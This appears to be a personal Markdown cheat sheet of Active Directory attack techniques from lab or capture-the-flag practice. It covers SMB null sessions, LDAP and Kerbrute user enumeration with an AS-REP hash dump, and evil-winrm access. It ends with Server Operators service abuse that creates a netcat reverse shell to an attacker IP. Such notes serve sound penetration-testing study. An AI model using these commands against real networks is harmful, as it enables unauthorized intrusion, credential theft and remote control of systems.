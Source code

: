 # Active Directory CheatSheet

### What I want to learn from this path.

    - Understand how kerberos and Kerbrute works!



### SMB service
-   using smbmap we can get the shares
    
    ```bash
    smbmap -H <host> -u 'null'
    # to perform the null session 
    ```


-   using smbclient

    ```bash
    smbclient -L //<host>/Shares -N
    # with -N we perform a null session

    smbclient //<host>/Shares -N
    # to connect without listing the shares
    ```
    

### LAPS
Local Administrator Password Solution. Is used to manage local account
passwords of Active Directory computers.




### LDAP (Lightweight directory access protocol)
Is a protocol that makes it possible for applications to query
user information rapidly.


the port fort ldap 389


Someone within your office wants to do two things: Send email to a
recent hire and print a copy of that conversation on a new printer.
LDAP (lightweight directory access protocol) makes both of those steps possible.

Set it up properly, and that employee doesn't need to talk with IT
to complete the tasks.


### What is LDAP?

Companies store usernames, passwords, email addresses, printers
connections, and other static data within directories. LDAP is an
open, vendor-natural application protocol for accessing and main-
taining that data. LDAP can also trackle authentication, so users can sign
on just once and access many different files on the server.

```bash
# user enumeration for ldap protocol 389

/opt/windapsearch.py -d <domain> --dc-ip <ip address>


GetADUsers.py -d <domain>/ -dc-ip <ip address> -debug
```


### Kerberos


With a several names, we get using user-anarchy, possible
usernames

and perform a kerbrute attack

```bash
kerbrute userenum -d <domain> --dc <ip address> user-list.txt
```

with this tool if there are any valid user in the user-list.txt
we get a hash referring to a Ticket Granted Ticket

```bash
❯ /opt/kerbrute  userenum -d <domain name "commonly .local or .htb"> --dc <ip address domain controller> unames.txt

    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: dev (n/a) - 05/29/23 - Ronnie Flathers @ropnop

2023/05/29 23:33:40 >  Using KDC(s):
2023/05/29 23:33:40 >   10.10.10.175:88

2023/05/29 23:33:40 >  [+] fsmith has no pre auth required. Dumping hash to crack offline:
$krb5asrep$18$<userdomain>@<domain>:<hash to crack it with john or hashcat>
2023/05/29 23:33:40 >  [+] VALID USERNAME:       fsmith@EGOTISTICAL-BANK.LOCAL
2023/05/29 23:33:41 >  Done! Tested 24 usernames (1 valid) in 0.481 seconds
```

The code above it's an example of how can i do to get the TGT from kerbrute and
after that I cracked it and i get the password for the user fsmith and
connect it with evil-winrm


Inside the Powershell console, I started enumerating information

```powershell
net user <user>

# to get the ptivilege information about that user
whoami /priv

# to find any other resurce inside the Powershell I use

Get-ChildItem -Path "C:\Users\<User>" -Filter "name of file" -Recurse
```

## Further information

Using Winpeas.exe and updload it from the attack machine by evil-winrm
and get the information using evil-winrm

### Getting information using the Winpeas.exe

## Bloodhound

...


## Services in Active Directory

when you have the privilege **Server Operators**
You can perform a change the execution of a service
for example:

```powershell
sc.exe create reverse binPath="C:\<destination path from the exe>"
# in this case the solution could be
sc.exe <services name> config binPath=""
sc.exe stop <service name>
sc.exe start <service name>
```


final code
```powershell
sc.exe create reverse binPath="C:\Users\svc-printer\Documents\nc.exe -e cmd 10.10.14.39 443"
```
